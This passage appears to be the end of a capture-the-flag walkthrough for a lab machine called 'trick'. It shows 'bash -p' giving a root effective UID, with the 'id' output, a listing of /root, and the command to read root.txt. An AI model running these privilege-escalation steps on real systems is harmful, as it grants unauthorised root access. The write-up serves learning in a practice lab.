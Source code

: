 ```bash
bash -p
```

The -p flag turns on privileged mode.  In this mode, the `$BASH_ENV' and '$ENV' files are not processed, shell functions are not inherited from the environment, and the `SHELLOPTS', 'BASHOPTS', 'CDPATH' and 'GLOBIGNORE' variables, if they appear in the environment, are ignored. The result:

```
michael@trick:~$ bash -p
bash-5.0# id
uid=1001(michael) gid=1001(michael) euid=0(root) egid=0(root) groups=0(root),1001(michael),1002(security)
bash-5.0# cd /root
bash-5.0# ls
f2b.sh  fail2ban  root.txt  set_dns.sh
```

To display the system flag:

```bash
cat root.txt
```



